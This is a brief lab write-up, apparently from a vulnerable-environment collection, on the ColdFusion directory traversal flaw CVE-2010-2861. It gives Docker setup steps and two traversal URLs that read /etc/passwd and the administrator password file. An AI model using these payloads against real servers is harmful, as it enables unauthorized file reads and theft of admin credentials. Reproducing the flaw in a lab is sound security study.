 # Adobe ColdFusion File Read Vulnerability (CVE-2010-2861)

Adobe ColdFusion is a dynamic Web server product from Adobe, USA. Its running CFML (ColdFusion Markup Language) is a programming language for web applications.

A directory traversal vulnerability exists in Adobe ColdFusion versions 8 and 9, which can cause unauthorized users to read arbitrary files on the server.

## Environment Building

Run the following command to start the Adobe CouldFusion 8.0.1 server:

```
Docker-compose up -d
```

It may take 1~5 minutes for the environment to start. After startup, visit `http://your-ip:8500/CFIDE/administrator/enter.cfm`. You can see the initialization page and enter the password `admin` to start the initialization of the entire environment.

## Vulnerability recurrence

Direct access to `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../ ../etc/passwd%00en`, you can read the file `/etc/passwd`:

![](1.png)

Read the background administrator password `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ Password.properties%00en`:

![](2.png)